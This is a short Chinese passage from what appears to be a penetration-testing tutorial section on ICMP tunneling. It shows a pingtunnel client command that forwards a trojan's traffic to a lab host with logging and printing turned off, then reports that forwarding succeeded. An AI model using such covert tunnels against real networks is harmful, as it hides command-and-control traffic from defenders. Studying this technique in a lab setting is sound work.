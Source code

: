 #### 4.3.3.1. 目标主机测试

这里我们就还是和MSF操作一样，运行工具，然后运行木马。

```
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```

![image-20230516121335750](assets/Z4N1zrfLBijW3Vh.png)

#### 4.3.3.2. 查看转发情况

可以看到成功转发。

![image-20230516121356884](assets/LMj6YzosdqP9Zin.png)
